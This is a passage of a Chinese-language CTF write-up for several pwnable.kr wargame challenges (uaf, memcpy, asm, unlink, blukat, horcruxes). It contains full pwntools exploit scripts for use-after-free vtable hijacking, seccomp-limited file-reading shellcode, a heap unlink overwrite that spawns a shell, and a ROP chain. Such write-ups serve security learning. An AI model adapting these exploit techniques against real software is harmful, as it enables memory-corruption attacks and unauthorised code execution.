说了这么多，怎么利用 `use`、`after` 和 `free` 三个过程来修改 `vtable` 值呢？我们知道，对于一块 `free` 操作释放掉的内存，仍然可能存在一个指针是指向它的，这个指针一般被称作悬空指针 `dangling pointer`。在这里，`m` 和 `w` 就属于悬空指针。

如果在这时，我们调用 `after` 过程，即分配一个**等长**的内存区域给 `data`，那么 `w` 所指的内存区域就会被分配。如果再次 `after`，那么 `m` 所指的内存区域也会被分配，这是由 `new/malloc` 的性质决定的。

现在，假如我们给 `data` 写入的是 `0x401568`，并且调用 `use` 过程，那么就会执行 `m->introduce()`，这会访问到 `0x401568 + 8 = 0x401570` 处的函数指针，恰好是 `m` 的 `vtable + 0` 处，也就变成了 `m->give_shell()`。

那么只剩下一个问题了，就是我们要分配多大的空间给 `data`，这在 IDA 中很容易发现：



`0x18` 字节，也就是 24 字节。最终 payload（注意地址是三十二位的）：

```shell
$ python -c 'print"\x68\x15\x40"+"\x00"*5' > /tmp/payload
$ ./uaf 24 /tmp/payload
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
1
```

## memcpy

```c
// compiled with : gcc -o memcpy memcpy.c -m32 -lm
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <sys/mman.h>
#include <math.h>

unsigned long long rdtsc(){
        asm("rdtsc");
}

char* slow_memcpy(char* dest, const char* src, size_t len){
    int i;
    for (i=0; i<len; i++) {
        dest[i] = src[i];
    }
    return dest;
}

char* fast_memcpy(char* dest, const char* src, size_t len){
    size_t i;
    // 64-byte block fast copy
    if(len>= 64){
        i = len / 64;
        len &= (64-1);
        while(i--> 0){
            __asm__ __volatile__ (
            "movdqa (%0), %%xmm0\n"
            "movdqa 16(%0), %%xmm1\n"
            "movdqa 32(%0), %%xmm2\n"
            "movdqa 48(%0), %%xmm3\n"
            "movntps %%xmm0, (%1)\n"
            "movntps %%xmm1, 16(%1)\n"
            "movntps %%xmm2, 32(%1)\n"
            "movntps %%xmm3, 48(%1)\n"
            ::"r"(src),"r"(dest):"memory");
            dest += 64;
            src += 64;
        }
    }

    // byte-to-byte slow copy
    if(len) slow_memcpy(dest, src, len);
    return dest;
}

int main(void){

    setvbuf(stdout, 0, _IONBF, 0);
    setvbuf(stdin, 0, _IOLBF, 0);

    printf("Hey, I have a boring assignment for CS class.. :(\n");
    printf("The assignment is simple.\n");

    printf("-----------------------------------------------------\n");
    printf("- What is the best implementation of memcpy?        -\n");
    printf("- 1. implement your own slow/fast version of memcpy -\n");
    printf("- 2. compare them with various size of data         -\n");
    printf("- 3. conclude your experiment and submit report     -\n");
    printf("-----------------------------------------------------\n");

    printf("This time, just help me out with my experiment and get flag\n");
    printf("No fancy hacking, I promise :D\n");

    unsigned long long t1, t2;
    int e;
    char* src;
    char* dest;
    unsigned int low, high;
    unsigned int size;
    // allocate memory
    char* cache1 = mmap(0, 0x4000, 7, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
    char* cache2 = mmap(0, 0x4000, 7, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
    src = mmap(0, 0x2000, 7, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);

    size_t sizes[10];
    int i=0;

    // setup experiment parameters
    for(e=4; e<14; e++){    // 2^13 = 8K
        low = pow(2,e-1);
        high = pow(2,e);
        printf("specify the memcpy amount between %d ~ %d :", low, high);
        scanf("%d", &size);
        if(size < low || size> high ){
            printf("don't mess with the experiment.\n");
            exit(0);
        }
        sizes[i++] = size;
    }

    sleep(1);
    printf("ok, lets run the experiment with your configuration\n");
    sleep(1);

    // run experiment
    for(i=0; i<10; i++){
        size = sizes[i];
        printf("experiment %d : memcpy with buffer size %d\n", i+1, size);
        dest = malloc(size);

        memcpy(cache1, cache2, 0x4000);        // to eliminate cache effect
        t1 = rdtsc();
        slow_memcpy(dest, src, size);        // byte-to-byte memcpy
        t2 = rdtsc();
        printf("ellapsed CPU cycles for slow_memcpy : %llu\n", t2-t1);

        memcpy(cache1, cache2, 0x4000);        // to eliminate cache effect
        t1 = rdtsc();
        fast_memcpy(dest, src, size);        // block-to-block memcpy
        t2 = rdtsc();
        printf("ellapsed CPU cycles for fast_memcpy : %llu\n", t2-t1);
        printf("\n");
    }

    printf("thanks for helping my experiment!\n");
    printf("flag : ----- erased in this source code -----\n");
    return 0;
}
```

本题实现了一个针对 64 字节以上的块的快速 `memcpy` 方法，使用的是 `movdqa` 和 `movntps` 两个汇编指令。但是实际运行时，即使按要求输入合法数据，程序也会崩溃。查了 [一些资料](https://www.felixcloutier.com/x86/movntps) 后，发现是由于堆分配时字节没有对齐导致的：

> The memory operand must be aligned on a 16-byte (128-bit version), 32-byte (VEX.256 encoded version) or 64-byte (EVEX.512 encoded version) boundary otherwise a general-protection exception (#GP) will be generated.

显然这里是要求目的地址是 16 字节对齐的，换句话说它的十六进制末尾是 0。gdb 调试一下，全部输入最小的合法数据：



可以看到段错误的时候，目的寄存器 `edx` 的末尾并不是 0，因此产生了错误。这不难理解：`malloc` 进行堆分配时，对于 `8` 而言分配了 `0x8+0x8=0x10` 字节，是对齐的；对 `16` 而言分配了 `0x8+0x10=0x18` 字节，于是不对齐了，我们可以给它 + 8 来对齐。对于 `32`，分配 `0x8+0x20=0x28` 字节，同样不对齐，我们也作同样的 padding 处理，于是我们可以输入数据：

```
8 24 40 72 136 264 520 1032 2056 4104
```

使得每次 `edx` 都是对齐的，程序就不会段错误了，最终得到 flag。

## asm

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <seccomp.h>
#include <sys/prctl.h>
#include <fcntl.h>
#include <unistd.h>

#define LENGTH 128

void sandbox(){
    scmp_filter_ctx ctx = seccomp_init(SCMP_ACT_KILL);
    if (ctx == NULL) {
        printf("seccomp error\n");
        exit(0);
    }

    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);

    if (seccomp_load(ctx) <0){
        seccomp_release(ctx);
        printf("seccomp error\n");
        exit(0);
    }
    seccomp_release(ctx);
}

char stub[] ="\x48\x31\xc0\x48\x31\xdb\x48\x31\xc9\x48\x31\xd2\x48\x31\xf6\x48\x31\xff\x48\x31\xed\x4d\x31\xc0\x4d\x31\xc9\x4d\x31\xd2\x4d\x31\xdb\x4d\x31\xe4\x4d\x31\xed\x4d\x31\xf6\x4d\x31\xff";
unsigned char filter[256];
int main(int argc, char* argv[]){

    setvbuf(stdout, 0, _IONBF, 0);
    setvbuf(stdin, 0, _IOLBF, 0);

    printf("Welcome to shellcoding practice challenge.\n");
    printf("In this challenge, you can run your x64 shellcode under SECCOMP sandbox.\n");
    printf("Try to make shellcode that spits flag using open()/read()/write() systemcalls only.\n");
    printf("If this does not challenge you. you should play'asg'challenge :)\n");

    char* sh = (char*)mmap(0x41414000, 0x1000, 7, MAP_ANONYMOUS | MAP_FIXED | MAP_PRIVATE, 0, 0);
    memset(sh, 0x90, 0x1000);
    memcpy(sh, stub, strlen(stub));

    int offset = sizeof(stub);
    printf("give me your x64 shellcode:");
    read(0, sh+offset, 1000);

    alarm(10);
    chroot("/home/asm_pwn");    // you are in chroot jail. so you can't use symlink in /tmp
    sandbox();
    ((void (*)(void))sh)();
    return 0;
}
```

程序通过 `sandbox` 函数和 `chroot` 禁止我们使用符号链接和除了 `open, read, write` 之外的函数，同时题目给出了一个 `readme`：

```
once you connect to port 9026, the "asm" binary will be executed under asm_pwn privilege.
make connection to challenge (nc 0 9026) then get the flag. (file name of the flag is same as the one in this directory)
```

flag 的文件名是一个已知的非常长的字符串。

根据提示，我们知道我们需要写一段 `shellcode`，并通过最后的 `((void (*)(void))sh)();` 执行。在执行前，程序还会执行一段汇编代码，也就是这里的 `stub` 数组中的内容，利用 `pwntools` 的 `disasm` 工具得到汇编代码：

```
   0:   48                      dec    eax
   1:   31 c0                   xor    eax,eax
   3:   48                      dec    eax
   4:   31 db                   xor    ebx,ebx
   6:   48                      dec    eax
   7:   31 c9                   xor    ecx,ecx
   9:   48                      dec    eax
   a:   31 d2                   xor    edx,edx
   c:   48                      dec    eax
   d:   31 f6                   xor    esi,esi
   f:   48                      dec    eax
  10:   31 ff                   xor    edi,edi
  12:   48                      dec    eax
  13:   31 ed                   xor    ebp,ebp
  15:   4d                      dec    ebp
  16:   31 c0                   xor    eax,eax
  18:   4d                      dec    ebp
  19:   31 c9                   xor    ecx,ecx
  1b:   4d                      dec    ebp
  1c:   31 d2                   xor    edx,edx
  1e:   4d                      dec    ebp
  1f:   31 db                   xor    ebx,ebx
  21:   4d                      dec    ebp
  22:   31 e4                   xor    esp,esp
  24:   4d                      dec    ebp
  25:   31 ed                   xor    ebp,ebp
  27:   4d                      dec    ebp
  28:   31 f6                   xor    esi,esi
  2a:   4d                      dec    ebp
  2b:   31 ff                   xor    edi,edi
```

这里把所有寄存器都清零了，这样实际上更方便我们写 `shellcode`。

考虑如何用系统调用读取文件并显示出来：

```c
fd = open(filepath, O_RDONLY);
read(fd, buf, 100);
write(1, buf, 100); // stdout
```

然后我们利用 `pwntools` 的 `shellcraft` 模块，将上面的代码转化成汇编即可。我们要取得 `fd` 也就是 `open` 的返回值，显然在 `rax` 里；然后从 `rax` 中读取 flag 内容，放到栈上，也就是 `rsp` 上：

```python
from pwn import *

context(arch='amd64', os='linux', log_level='DEBUG')

p = remote('pwnable.kr', 9026)

shellcode = shellcraft.open('this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong', 0)

shellcode += shellcraft.read('rax', 'rsp', 100)
shellcode += shellcraft.write(1,'rsp', 100)

p.recvuntil('shellcode:')
p.sendline(asm(shellcode))

p.interactive()
```

## unlink

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
typedef struct tagOBJ{
    struct tagOBJ* fd;
    struct tagOBJ* bk;
    char buf[8];
}OBJ;

void shell(){
    system("/bin/sh");
}

void unlink(OBJ* P){
    OBJ* BK;
    OBJ* FD;
    BK=P->bk;
    FD=P->fd;
    FD->bk=BK;
    BK->fd=FD;
}
int main(int argc, char* argv[]){
    malloc(1024);
    OBJ* A = (OBJ*)malloc(sizeof(OBJ));
    OBJ* B = (OBJ*)malloc(sizeof(OBJ));
    OBJ* C = (OBJ*)malloc(sizeof(OBJ));

    // double linked list: A <-> B <-> C
    A->fd = B;
    B->bk = A;
    B->fd = C;
    C->bk = B;

    printf("here is stack address leak: %p\n", &A);
    printf("here is heap address leak: %p\n", A);
    printf("now that you have leaks, get shell!\n");
    // heap overflow!
    gets(A->buf);

    // exploit this unlink!
    unlink(B);
    return 0;
}
```

题目提供了指针 A 在栈上的地址和其所指对象在堆上的地址，随后出现了一个堆溢出漏洞，显然是要我们溢出 A 的 buf 去覆盖 B 的内容，然后 `unlink(B)`。

`unlink` 函数的原理和双向链表中删除结点是一样的，不规范地缩写一下：

```
[P->fd]->bk = P->bk
[P->bk]->fd = P->fd
```

然而，尽管 `P->fd->bk` 和 `P->bk->fd` 会被检查合法性，这两句赋值语句中的 `P->fd` 和 `P->bk` 都不会被检查，换句话说我们可以用这个特性使右边的地址覆盖掉左边地址。

> 再简单一点，注意到 `->fd` 等于 `+0x0`，`->bk` 等于 `+0x4`，也就是：
>
> ```
> [P]+0x4 = P+0x4
> [P+0x4] = P
> ```

例如，我们可以修改 main 返回地址：`ret_addr = shell_addr`，也就是令 `P->fd=ebp, P->bk=shell_addr`（注意到 `[P->fd]->bk=ebp+4`）。然而，当执行下一句时，有 `[P->bk]->fd=*(shell_addr)=shell()`，会被 `P->fd` 也就是 `ebp` 覆盖掉，导致我们的 `shell()` 函数被修改。反之同理。

或者，我们可以往栈上写 `shell()` 或者 GOT 劫持，由于 `NX` 保护和库函数缺失，这里也不能用。

最后，我们先找到了 `shell()` 地址 `0x80484eb`，随后在汇编中发现关键代码：

```asm
mov ecx, [ebp-0x4]
leave
lea esp, [ecx-0x4]
retn
```

这里的代码逻辑很奇怪：`leave` 已经恢复 `esp` 了，下一句又改变了 `esp` 的值。换个写法：

```c
ecx = [ebp-0x4]
esp = ecx-0x4
eip = esp
```

这样就很清晰了，我们可以通过影响 `esp` 来影响返回地址，这就需要我们控制 `ecx`。控制 `ecx`，也就是控制 `[ebp-0x4]`。

那我们最终肯定是要让 `esp = shell_addr`，为了产生这个 `shell_addr`，首先要把 `shell()` 写入堆上的某个安全（不会被修改）的地方，显然 `A->buf` 开头是非常理想的位置。

此时有 `shell_addr = A+0x8`（两个指针 8 字节），那就要让 `esp = ecx-0x4 = A+0x8`，得 `ecx = A+0xc`。

这需要 `[ebp-0x4] = A+0xc`，这就到了 `unlink` 出场的时候了。我们设置 `B->bk` 为 `ebp-0x4`，`B->fd` 为 `A+0xc`，按照前面说的原理就能实现覆盖（注：此时 `A->buf[4:8]` 被修改，这不会有影响），此时堆长这样（每块 4 字节）：

```
 ---------
| A->fd   |
 ---------
| A->bk   |
 ---------
| shell() | // A->buf[0:4]
 ---------
|         | // A->buf[4:8]
 ---------
| A+0xc   | // B->fd
 ---------
| ebp-0x4 | // B->bk
 ---------
| B->buf  |
  ...
```

问题来了：

1. 上面的 `A` 是 A 的栈地址还是 A 所指对象的堆地址？
2. 如何得到 `ebp-0x4`？

第一个问题很容易，我们最终需要获取的内容是 `shell()`，这个东西被我们放在了 A 所指的 OBJ 对象里，所以我们去拿 `A+0x8` 很明显是指 A 的堆地址，也就是 `heap address leak`。

第二个问题，题目给的 `stack_leak` 我们似乎还没有用，怎么用呢？因为我们需要用 A 在栈上的地址找到 `ebp-0x4` 的值，所以计算一下两者的偏移量即可。在汇编代码中可以找到 A,B,C 分别位于 `ebp-0x14, ebp-0xc, ebp-0x10` 的位置，那就可以推出 `ebp-0x4 = (ebp-0x14) + 0x10 = stack address leak + 0x10`。

最终 payload：

```python
from pwn import *

p = ssh(host='pwnable.kr', port=2222, user='unlink', password='guest').process('./unlink')

p.recvuntil('stack address leak:')
stack_leak = int(p.recv(10), 16)
p.recvuntil('heap address leak:')
heap_leak = int(p.recv(9), 16)

shell_addr = 0x80484eb

payload = p32(shell_addr) + 'a'*12 + p32(heap_leak+0xc) + p32(stack_leak+0x10)
p.send(payload)

p.interactive()
```

此外，我们刚才仅仅利用了第二句话 `[P->bk]->fd = P->fd`，另一句话并没有用。那能不能只用另一句话 `[P->fd]->bk = P->bk` 来完成这题呢？当然是可以的。实际上，区别很微妙。

这里不同于刚才控制 `[ebp-0x4]` 修改 `ecx` 的思路，而是直接想办法修改 `ebp` 引起 `ecx` 变化，目标还是让 `[ebp-0x4]=A+0xc`。

令 `P->fd = ebp-0x8`，`P->bk = A+0xc`，则我们会发现 `[P->fd]->bk` 指向 `ecx`，此时我们又能用 `A+0xc` 覆盖 `ecx` 了！

```
 ---------
| ebp-0x8 | // B->fd
 ---------
| A+0xc   | // B->bk
 ---------
```

根据刚才得到的栈上关系，`ebp-0x8 = stack address leak + 0xc`，因此第二种方法的 payload：

```python
payload = p32(shell_addr) + 'a'*12 + p32(stack_leak+0xc) + p32(heap_leak+0xc)
```

## blukat

这题只有三分，但是代码中并没有什么可利用的点：

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <fcntl.h>
char flag[100];
char password[100];
char* key = "3\rG[S/%\x1c\x1d#0?\rIS\x0f\x1c\x1d\x18;,4\x1b\x00\x1bp;5\x0b\x1b\x08\x45+";
void calc_flag(char* s){
    int i;
    for(i=0; i<strlen(s); i++){
        flag[i] = s[i] ^ key[i];
    }
    printf("%s\n", flag);
}
int main(){
    FILE* fp = fopen("/home/blukat/password", "r");
    fgets(password, 100, fp);
    char buf[100];
    printf("guess the password!\n");
    fgets(buf, 128, stdin);
    if(!strcmp(password, buf)){
        printf("congrats! here is your flag:");
        calc_flag(password);
    }
    else{
        printf("wrong guess!\n");
        exit(0);
    }
    return 0;
}
```

这里就是要求输入 `password` 并和同目录的 `password` 文件比对，相同则输出 flag。直接 `cat password`，显示无权限：

```bash
cat: password: Permission denied
```

由于没有可利用的点并且分很低，结合提示可以想到不是常规思路能解决的题。注意到 `blukat.c` 这个程序明显是可以读 `password` 文件的，我们可以查看一下该文件的权限：

```shell
$ ls -al
total 36
drwxr-x---   4 root blukat     4096 Aug 16  2018 .
drwxr-xr-x 114 root root       4096 May 19 15:59 ..
-r-xr-sr-x   1 root blukat_pwn 9144 Aug  8  2018 blukat
-rw-r--r--   1 root root        645 Aug  8  2018 blukat.c
dr-xr-xr-x   2 root root       4096 Aug 16  2018 .irssi
-rw-r-----   1 root blukat_pwn   33 Jan  6  2017 password
drwxr-xr-x   2 root root       4096 Aug 16  2018 .pwntools-cache
```

需要是 `blukat_pwn` 组的用户才能够读，那么我们是以什么用户登录的呢？

```shell
$ id
uid=1104(blukat) gid=1104(blukat) groups=1104(blukat),1105(blukat_pwn)
```

可以看到我们确实是属于 `blukat_pwn` 组的，但是却提示无权读取，那么只有一种可能，就是 `password` 文件本身的内容就是：

```
cat: password: Permission denied
```

输入进程序就能得到 flag。

## horcruxes

IDA 一下 `ropme` 函数：

```c
int ropme()
{
  char s[100]; // [esp+4h] [ebp-74h]
  int v2; // [esp+68h] [ebp-10h]
  int fd; // [esp+6Ch] [ebp-Ch]

  printf("Select Menu:");
  __isoc99_scanf("%d", &v2);
  getchar();
  if (v2 == a)
  {
    A();
  }
  else if (v2 == b)
  {
    B();
  }
  else if (v2 == c)
  {
    C();
  }
  else if (v2 == d)
  {
    D();
  }
  else if (v2 == e)
  {
    E();
  }
  else if (v2 == f)
  {
    F();
  }
  else if (v2 == g)
  {
    G();
  }
  else
  {
    printf("How many EXP did you earned? :");
    gets(s);
    if (atoi(s) == sum )
    {
      fd = open("flag", 0);
      s[read(fd, s, 0x64u)] = 0;
      puts(s);
      close(fd);
      exit(0);
    }
    puts("You'd better get more experience to kill Voldemort");
  }
  return 0;
}
```

显然最后一个 `else` 部分的 `gets` 可以导致栈溢出，但是程序开启了 NX 使得无法在栈上执行 `shellcode`，根据题目提示，这题我们需要利用 ROP 技术找到 7 个 `gadgets`，最终劫持返回地址。

根据 IDA 提示，`s` 位于 `ebp-0x74` 与返回地址相差 `0x74+0x4=0x78`。注意到 `ropme` 函数的地址 `0x080a0009` 中含有 `0a` 这个截断字符，因此我们不可能将其中的地址写到栈上，也就是说不能绕过 `if (atoi(s) == sum )` 直接去读 flag。那我们就需要找到 `sum`：

```c
unsigned int init_ABCDEFG()
{
  int v0; // eax
  unsigned int result; // eax
  unsigned int buf; // [esp+8h] [ebp-10h]
  int fd; // [esp+Ch] [ebp-Ch]

  fd = open("/dev/urandom", 0);
  if (read(fd, &buf, 4u) != 4 )
  {
    puts("/dev/urandom error");
    exit(0);
  }
  close(fd);
  srand(buf);
  a = -559038737 * rand() % 0xCAFEBABE;
  b = -559038737 * rand() % 0xCAFEBABE;
  c = -559038737 * rand() % 0xCAFEBABE;
  d = -559038737 * rand() % 0xCAFEBABE;
  e = -559038737 * rand() % 0xCAFEBABE;
  f = -559038737 * rand() % 0xCAFEBABE;
  v0 = rand();
  g = -559038737 * v0 % 0xCAFEBABE;
  result = f + e + d + c + b + a + -559038737 * v0 % 0xCAFEBABE;
  sum = result;
  return result;
}
```

由于调用了 `srand`，我们无法预测 `abcdefg` 的值，但是我们又需要它们的值才能计算出 `sum`。幸运的是，在 `ropme` 函数中刚才被我们忽略的上面的一大串 `if` 语句能带来一些帮助。当输入的 `v2` 等于这些随机数中的任一个时，就会执行相应的大写字母作为名字的函数，而这些函数会将随机数本身打印出来，这样我们就能拿到 7 个随机数的值了，相加就能得到 `sum`。

我们从 IDA 中拿到 7 个函数的地址，前面先填充 `0x78` 字节，随后依次追加 7 个函数的地址，那么一个函数返回后就会返回到下一个函数的入口上，构成 ROP 链，最后再返回 `ropme` 计算 `sum`。然而前面提到 `ropme` 地址无法写到栈上，但我们可以利用 `main` 函数中 `call ropme` 所在地址 `0x0809fffc`，来返回到 `ropme`。

因此，最终 payload 为：

```python
from pwn import *

p = remote('pwnable.kr', 9032)

p.recvuntil(':')
p.sendline('1')
p.recvuntil(':')

payload = 'a'*0x78 + p32(0x0809fe4b) + p32(0x0809fe6a) + p32(0x0809fe89) + p32(0x0809fea8) + p32(0x0809fec7) + p32(0x0809fee6) + p32(0x0809ff05) + p32(0x0809fffc)
p.sendline(payload)
p.recvline()

sum = 0
for i in range(7):
    p.recvuntil('+')
    sum += int(p.recvline()[:-2]) # strip )\n

p.recvuntil(':')
p.sendline('1')
p.recvuntil(':')
p.sendline(str(sum))
print p.recv()
```
